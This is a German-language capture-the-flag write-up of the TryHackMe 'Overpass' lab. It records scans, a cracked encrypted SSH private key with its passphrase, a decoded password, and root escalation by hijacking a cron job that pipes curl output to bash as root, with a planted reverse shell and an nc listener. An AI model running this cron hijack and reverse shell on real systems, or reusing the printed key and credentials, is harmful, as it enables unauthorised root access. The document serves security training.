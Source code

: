 ```yaml
---
description: https://tryhackme.com/room/overpass
---
```


# ✅ Overpass

## Gegeben

* IP

## Vorgehen

### 1. NMAP-Scan:

{% code overflow="wrap" %}
```
22:ssh
80:http
```
{% endcode %}

{% code overflow="wrap" %}
```
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
# Kommentar in HTML-Code weist auf Cesars Chiffre hin

https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters-example
```
{% endcode %}

### 2. DIRB-Scan

{% code overflow="wrap" fullWidth="false" %}
```
---- Scanning URL: http://10.10.3.185/ ----
==> DIRECTORY: http://10.10.3.185/aboutus/                                     
+ http://10.10.3.185/admin (CODE:301|SIZE:42)                                  
==> DIRECTORY: http://10.10.3.185/css/                                         
==> DIRECTORY: http://10.10.3.185/downloads/                                   
==> DIRECTORY: http://10.10.3.185/img/                                         
+ http://10.10.3.185/index.html (CODE:301|SIZE:0)                              
                                                                               
---- Entering directory: http://10.10.3.185/aboutus/ ----
+ http://10.10.3.185/aboutus/index.html (CODE:301|SIZE:0)                      
                                                                               
---- Entering directory: http://10.10.3.185/css/ ----
+ http://10.10.3.185/css/index.html (CODE:301|SIZE:0)                          
                                                                               
---- Entering directory: http://10.10.3.185/downloads/ ----
+ http://10.10.3.185/downloads/index.html (CODE:301|SIZE:0)                    
+ http://10.10.3.185/downloads/src (CODE:301|SIZE:0)                           
                                                                               
---- Entering directory: http://10.10.3.185/img/ ----
+ http://10.10.3.185/img/index.html (CODE:301|SIZE:0)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                
```
{% endcode %}

### 3. User

```
# Entwickler
ninja
pars
szymex
bee
muirlandoracle

# Accounts?
steve
james
paradox
```

### 4. cracking id\_rsa

{% content-ref url="../../../killchain/exploitation-persistence-and-privilege-escalation/cracking/id_rsa.md" %}
[id\_rsa.md](../../../killchain/exploitation-persistence-and-privilege-escalation/cracking/id_rsa.md)
{% endcontent-ref %}

{% code overflow="wrap" %}
```
# Ergebnis
james rsa_key:james13

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
{% endcode %}

### 5. Rot47-kodiertes Passwort&#x20;

```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

[{"name":"System","pass":"saydrawnlyingpicture"}]
```

### 6. crontab

```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
# Download des Scripts und ausführen als root

```

1. Änderung des Eintrages in /etc/hosts damit overpass.thm auf mich zeigt
2. Aufbauen einer Ordnerstruktur mit /downloads/src/rev\_shell
3. Lauschen mit `python3 -m http.server 80` als Webserver
4. Lauschen mit `nc -lvnp 5432` als Webserver
5. pwned

### 7. Root Flag

root.txt gefunden
